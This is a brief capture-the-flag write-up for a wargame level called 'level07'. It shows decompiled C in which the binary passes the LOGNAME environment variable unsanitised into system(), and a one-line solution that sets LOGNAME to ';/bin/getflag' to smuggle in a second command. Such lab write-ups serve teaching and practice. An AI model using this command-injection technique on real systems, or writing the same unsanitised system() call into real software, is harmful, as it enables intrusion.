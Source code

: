 # level07

```bash
LOGNAME=';/bin/getflag' ./level07
```

## Explanation

This one was really easy.

Opening the `./level07` executable in ghidra shows:

```C
pcVar1 = getenv("LOGNAME");
asprintf(&local_1c,"/bin/echo %s ",pcVar1);
iVar2 = system(local_1c);
```
